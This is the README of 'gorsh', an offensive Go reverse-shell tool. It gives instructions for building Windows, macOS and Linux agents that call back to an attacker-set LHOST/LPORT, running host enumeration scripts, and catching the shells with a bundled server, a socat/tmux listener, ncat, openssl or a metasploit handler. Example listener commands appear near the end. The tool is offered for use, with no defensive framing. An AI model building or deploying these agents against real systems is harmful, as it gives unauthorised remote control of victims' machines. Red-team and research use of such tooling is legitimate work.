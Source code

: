 # gorsh

[go]lang [r]everse [sh]ell

[![forthebadge](https://forthebadge.com/images/badges/fuck-it-ship-it.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/no-ragrets.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/contains-technical-debt.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/made-with-crayons.svg)](https://forthebadge.com)

![](https://i.imgur.com/x51XH6K.png)
[![asciicast](https://asciinema.org/a/NmeC42TNu8BgdjMLcyVUXo74x.svg)](https://asciinema.org/a/NmeC42TNu8BgdjMLcyVUXo74x)

Originally forked from - [sysdream/hershell](https://github.com/sysdream/hershell)

## Fork Changes

**Requires go1.16+**

See the [Changelog](./docs/CHANGELOG.md)

## Getting started

```bash
git clone git@github.com:audibleblink/gorsh.git
```

Using the zstd build tag and windll make target require cgo.
Make sure you're familiar with cross-compilation and cgo and have the toolchains for it, or read
[here](./docs/TROUBLESHOOTING.md) if you're feeling adventurous.

### Usage

**Create** `internal/sshocks/conf/ssh.json`. There's an example in that same directory for
reference.

Follow the make command's printed instructions on creating an ssh user for the reverse proxy
connection.

Generate agents with:

```bash
# For the `make` targets, you only need the`LHOST`and`LPORT`environment variables.
$ make {windows,macos,linux} LHOST=example.com LPORT=443
```

#### Enumeration Scripts

The `enum` command will present a selection dialog that allows once to run enumeration scripts based
on the host OS. You can update scripts in `scripts/prepare_enum_scripts.sh` and run 
`make enumscripts`. Addition of scripts will require modification of
`./internal/enum/enum_{windows,linux}.go`


#### Catching the shell

This project ships with a server that catches the reverse shell and still provides shell-like
capabilities you lose with traditional reverse shells, including:

* Tab Completion
* Vi-mode readline editing
* History
* Cursor movements

Generate the server with:

```sh
make server
build/srv/gorsh-server --help
```

The gorsh and gorsh-server have a one-to-one relationship, like a traditional shell. For multiple
shells, you need to start multiple servers on different ports. Unless...

To have the ability to receive multiple shells on the same port, there's the `make listen` target.
The `make listen` target kicks off a socat TLS pipe and creates new tmux windows with each new
incoming connection.  Feed it a port number as PORT. 
`socat` is essentially acting as a TLS-terminating reverse proxy. The incoming connections are then
handed off to gorsh-server through randomly generated Unix Domain Sockets.

```sh
make listen PORT=8080

# once a client connects, on a different terminal type:
tmux attach -t GORSH
```

Shells can also be caught without tmux or gorsh-server using:

* socat (not working on macos)
* ncat
* openssl server module
* metasploit multi handler (with a `python/shell_reverse_tcp_ssl` payload)

__Examples__

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
$ socat stdio OPENSSL-LISTEN:443,cert=server.pem,key=server.key,verify=0
```

## Credits

* Initial Work - [@lesnuages](https://github.com/lesnuages)
* Modifications - f47h3r - [@f47h3r_b0](https://twitter.com/f47h3r_b0)
* [@mzpqnxow](https://github.com/mzpqnxow) for figuring out my x-compilation and dependancy problems and troubleshooting guide
* Enumeration scripts courtesy of [@411hall](https://twitter.com/411hall) [@harmj0y](https://twitter.com/harmj0y) [@rebootuser](https://twitter.com/rebootuser)
